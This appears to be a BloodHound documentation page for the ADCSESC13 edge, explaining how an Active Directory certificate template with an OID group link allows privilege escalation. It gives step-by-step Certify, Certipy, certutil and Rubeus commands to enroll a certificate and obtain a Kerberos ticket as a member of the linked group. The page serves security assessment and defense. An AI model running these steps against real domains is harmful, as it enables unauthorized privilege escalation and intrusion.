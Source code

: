 ---
title: ADCSESC13
description: "The ADCSESC13 edge indicates that the principal has the privileges to perform the ADCS ESC13 abuse against the target AD group. The principal has enrollment rights on a certificate template configured with an issuance policy extension."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


 The issuance policy has an OID group link to an AD group. The principal also has enrollment permission for an enterprise CA with the necessary template published. This enterprise CA is trusted for NT authentication and chains up to a root CA for the forest. This setup allows the principal to enroll a certificate that the principal can use to obtain access to the environment as a member of the group specified in the OID group link.

## Abuse Info

An attacker may perform this attack in the following steps:

### Step 1: Request enrollment in the affected template

On Windows, use Certify to request enrollment in the affected template, specifying the affected certification authority:

```bash
Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:"ESC13"
```

On Linux, use Certipy to request enrollment in the affected template, specifying the affected enterprise CA:

```bash
certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC13

```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

### Step 2: Create PFX format of certificate (Windows only)

Save the certificate as cert.pem and the private key as cert.key.

Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```

### Step 3: Request a ticket granting ticket (TGT)

On Windows, use Rubeus to request a TGT from the domain, specifying the attacker identity, the PFX-formatted certificate created in Step 2, and the certificate password:

```bash
Rubeus asktgt /user:attacker /domain:forestroot.com /certificate:cert.pfx /password:asdf /ptt
```

On Linux, use Certipy to request a TGT from the domain, specifying the certificate created in Step 1 and the IP of a domain controller:

```bash
certipy auth -pfx john.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate.

## References

This edge is related to the following MITRE ATT&CK technique:

* [Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)

### Abuse info references

* [ADCS ESC13 Abuse Technique](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
* [Authentication Mechanism Assurance for AD DS in Windows Server 2008 R2 Step-by-Step Guide](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd378897(v=ws.10)?redirectedfrom=MSDN)
* [Use Authentication Mechanism Assurance (AMA) to secure administrative account logins](https://www.gradenegger.eu/en/using-authentication-mechanism-assurance-ama-to-secure-the-login-of-administrative-accounts/)
* [Certified Pre-Owned - Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) 
